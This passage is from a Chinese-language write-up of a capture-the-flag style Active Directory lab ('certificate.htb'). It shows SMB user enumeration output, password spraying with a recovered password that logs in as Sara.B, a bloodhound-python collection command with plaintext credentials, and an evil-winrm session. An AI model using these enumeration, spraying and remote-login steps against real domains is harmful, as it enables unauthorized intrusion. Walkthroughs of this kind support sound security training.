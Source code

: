 ```
SMB         10.10.11.71     445    DC01             Lion.SK                       2024-11-04 02:28:02 0
SMB         10.10.11.71     445    DC01             Eva.F                         2024-11-04 02:33:36 0
SMB         10.10.11.71     445    DC01             Ryan.K                        2024-11-04 02:57:30 0
SMB         10.10.11.71     445    DC01             akeder.kh                     2024-11-24 02:26:06 0
SMB         10.10.11.71     445    DC01             kara.m                        2024-11-24 02:28:19 0
SMB         10.10.11.71     445    DC01             Alex.D                        2024-11-24 06:47:44 0
SMB         10.10.11.71     445    DC01             karol.s                       2024-11-24 02:42:21 0
SMB         10.10.11.71     445    DC01             saad.m                        2024-11-24 02:44:23 0
SMB         10.10.11.71     445    DC01             xamppuser                     2024-12-29 09:42:04 0
SMB         10.10.11.71     445    DC01             [*] Enumerated 18 local users: CERTIFICATE
```

看到有名为Sara.B的用户，和sara.b很相似，很有可以产生密码复用，我们可以直接尝试，当然也可以把所有用户保存，用`Blink182`进行密码喷洒：

最后果然Sara.B尝试成功，密码也是Blink182。

这里我们就有了两个用户，优先尝试能不能winrm远程登录，发现Sara.B可以直接远程登录！

这里同时可以用bloodhound分析一下，先收集数据：

```
bloodhound-python -d certificate.htb -dc 'dc01.certificate.htb' -u sara.b -p 'Blink182' -ns 10.10.11.71
```

然后到图形化页面上传收集的json文件，并分析：

```
└─# bloodhound-cli up
```

发现sara.b没有outbound  object  contrl。 原来是有对lion.sk的genericall权限，但是在`10TH JUNE, 2025`机器进行了一次修复，这个权限也就消失了。

evil-winrm连接进去看看

```
*Evil-WinRM* PS C:\Users\Sara.B\Downloads> whoami /all

/all	显示当前访问令牌中的所有信息，包括当前用户名、安全标识符（SID）、特权和当前用户所属的组。

USER INFORMATION
----------------

User Name          SID
================== =============================================
certificate\sara.b S-1-5-21-515537669-4223687196-3249690583-1109


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
```